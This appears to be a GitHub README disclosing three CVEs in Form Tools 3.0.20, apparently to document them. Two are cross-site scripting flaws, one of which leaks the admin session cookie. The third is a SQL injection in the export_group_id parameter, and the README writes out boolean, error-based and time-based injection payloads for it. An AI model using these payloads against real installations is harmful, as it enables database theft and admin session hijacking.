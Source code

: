 # Form Tools - Version 3.0.20

### CVE-2021-38143 - Stored XSS
An issue was discovered in Form Tools through 3.0.20.
When an administrator creates a customer account, it is possible for the customer to log in and proceed with a change of name and last name. However, these fields are vulnerable to XSS payload insertion, being triggered in the admin panel when the admin tries to see the client list. This type of XSS (Stored) can lead to the extraction of the PHPSESSID cookie belonging to the admin.

###

Insertion of the payload in the "First Name" (client account) field:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS.png?raw=true "Payload on 'First Name'")

###
The administrator logs in and opens the page with the list of clients:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS2.png?raw=true "Payload triggered")

XSS triggered and exposing the admin cookie.

##

### CVE-2021-38144 - Reflected XSS
An issue was discovered in Form Tools through 3.0.20.
A low-privileged user can trigger Reflected XSS when viewing form via the submission_id parameter, e.g., ```clients/forms/edit_submission.php?form_id=1&view_id=1&submission_id=[XSS] ```

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/ReflectedXSS.png?raw=true "Triggered Reflected XSS")


##

### CVE-2021-38145 - SQL Injection
An issue was discovered in Form Tools through 3.0.20.
SQL Injection can occur via the **export_group_id** field when a low-privileged user (client) try to export a form with data, e.g., manipulation of ```modules/export_manager/export.php?export_group_id=1&export_group_1_results=all&export_type_id=1```

Create data table export using a normal user account by clicking *display*:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI1.png?raw=true "Special character insertion")

###
Insertion of the special character **'** to test for possible break in the query and cause database errors:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI2.png?raw=true "Special character insertion")

###

The endpoint is vulnerable to the following types of SQL Injection attacks:

```
> Parameter: export_group_id (GET)
     
     Type: boolean-based blind
     Title: AND boolean-based blind - WHERE or HAVING clause
     Payload: export_group_id=1 AND 5636=5636&export_group_1_results=all&export_type_id=1

     Type: error-based
     Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
     Payload: export_group_id=1 AND (SELECT 4229 FROM(SELECT COUNT(*),CONCAT(0x717a627171,(SELECT (ELT(4229=4229,1))
     ),0x716b787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&export_group_1_results=all&
     export_type_id=1

     Type: time-based blind
     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Payload: export_group_id=1 AND (SELECT 1946 FROM (SELECT(SLEEP(5)))nmeR)&export_group_1_results=all&
     export_type_id=1
```